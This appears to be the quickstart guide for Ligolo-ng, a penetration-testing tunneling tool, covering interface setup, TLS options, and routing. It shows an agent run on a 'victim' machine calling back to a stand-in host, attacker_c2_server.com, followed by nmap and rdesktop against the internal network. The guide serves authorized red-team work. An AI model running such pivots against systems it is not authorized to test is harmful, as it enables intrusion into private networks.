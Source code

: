 # Quickstart

## Prerequisites

### Linux

When using Linux, you need to create a tun interface on the Proxy Server (C2):

```shell
$ sudo ip tuntap add user [your_username] mode tun ligolo
$ sudo ip link set ligolo up
```

!!! tip
    
    On **Ligolo-ng >= v0.6**, you can now use the `interface_create` command to create a new interface! No need to use ip tuntap!

```
ligolo-ng » interface_create --name "evil-cha"
INFO[3185] Creating a new "evil-cha" interface...       
INFO[3185] Interface created!
```

### Windows

You need to download the [Wintun](https://www.wintun.net/) driver (used by [WireGuard](https://www.wireguard.com/)) and place the `wintun.dll` in the same folder as Ligolo (make sure you use the right architecture).

## TLS Options

#### Using Let's Encrypt Autocert

When using the `-autocert` option, the proxy will automatically request a certificate (using Let's Encrypt) for *attacker_c2_server.com* when an agent connects.

!!! info

    Port 80 needs to be accessible for Let's Encrypt certificate validation/retrieval

#### Using your own TLS certificates

If you want to use your own certificates for the proxy server, you can use the `-certfile` and `-keyfile` parameters.

#### Automatic self-signed certificates

The *proxy/relay* can automatically generate self-signed TLS certificates using the `-selfcert` option.

***Validating self-signed certificates fingerprints (recommended)***

When running selfcert, you can run the `certificate_fingerprint` command to print the currently used certificate fingerprint.

```
ligolo-ng » certificate_fingerprint 
INFO[0203] TLS Certificate fingerprint for ligolo is: D005527D2683A8F2DB73022FBF23188E064493CFA17D6FCF257E14F4B692E0FC 
```

On the agent, you can then connect using the fingerprint provided by the Ligolo-ng proxy.

```
ligolo-agent -connect 127.0.0.1:11601 -v -accept-fingerprint D005527D2683A8F2DB73022FBF23188E064493CFA17D6FCF257E14F4B692E0FC                                               nchatelain@nworkstation
INFO[0000] Connection established                        addr="127.0.0.1:11601"
```

!!! warning

    By default, the `ligolo` domain name is used for TLS Certificate generation. You can change the domain by using the -selfcert-domain [domain] option at startup.

***Ignoring all certificate verification (for lab/debugging)***

To ignore all security mechanisms, the `-ignore-cert` option can be used with the *agent*.

!!! warning

    Beware of man-in-the-middle attacks! This option should only be used in a test environment or for debugging purposes.

## Using Ligolo-ng

![Basic Tunnel](/assets/graphs/BasicTunnel.svg)

### Start the Ligolo-ng proxy server

Start the *proxy* server on your Command and Control (C2) server (default port 11601):

```shell
$ ./proxy -h # Help options
$ ./proxy -autocert # Automatically request LetsEncrypt certificates
$ ./proxy -selfcert # Use self-signed certificates
```

### Start the agent

Start the *agent* on your target (victim) computer (no privileges are required!):

```shell
$ ./agent -connect attacker_c2_server.com:11601
```

!!! info

    If you want to tunnel the connection over a SOCKS5 proxy, you can use the `--socks ip:port` option. You can specify SOCKS credentials using the `--socks-user` and `--socks-pass` arguments.

A session should appear on the *proxy* server.

``` 
INFO[0102] Agent joined. name=nchatelain@nworkstation remote="XX.XX.XX.XX:38000"
```

Use the `session` command to select the *agent*.

```
ligolo-ng » session 
? Specify a session : 1 - nchatelain@nworkstation - XX.XX.XX.XX:38000
```

### Start the tunneling

Start the tunnel on the proxy, using the `evil-cha` interface name.

```
[Agent : nchatelain@nworkstation] » tunnel_start --tun evil-cha
[Agent : nchatelain@nworkstation] » INFO[0690] Starting tunnel to nchatelain@nworkstation   
```

!!! info

    On macOS, you need to specify a utun[0-9] device, like utun4.

## Setup routing

### Ligolo-ng managed routing

### Manual routing setup

First, display the network configuration of the agent using the `ifconfig` command:

```
[Agent : nchatelain@nworkstation] » ifconfig 
[...]
┌─────────────────────────────────────────────┐
│ Interface 3                                 │
├──────────────┬──────────────────────────────┤
│ Name         │ wlp3s0                       │
│ Hardware MAC │ de:ad:be:ef:ca:fe            │
│ MTU          │ 1500                         │
│ Flags        │ up|broadcast|multicast       │
│ IPv4 Address │ 192.168.0.30/24             │
└──────────────┴──────────────────────────────┘
```

Then setup routes accordingly to your system:

=== "Linux"

    *Using the terminal:*
    ```shell
    $ sudo ip route add 192.168.0.0/24 dev ligolo
    ```
    *Or using the Ligolo-ng (>= 0.6) cli:*
    ```
    ligolo-ng » interface_add_route --name evil-cha --route 192.168.2.0/24
    INFO[3206] Route created.                               
    ```

=== "Windows"

    ```
    > netsh int ipv4 show interfaces
    
    Idx     Mét         MTU          État                Nom
    ---  ----------  ----------  ------------  ---------------------------
     25           5       65535  connected     ligolo
       
    > route add 192.168.0.0 mask 255.255.255.0 0.0.0.0 if [THE INTERFACE IDX]
    ```

=== "MacOS (Darwin)"

    ```
    $ sudo ifconfig utun4 alias [random_ip] 255.255.255.0
    $ sudo route add -net 192.168.2.0/24 -interface utun4
    ```
    
    You can now access the *192.168.0.0/24* *agent* network from the *proxy* server.
    
    ```shell
    $ nmap 192.168.0.0/24 -v -sV -n
    [...]
    $ rdesktop 192.168.0.123
    [...]
    ```

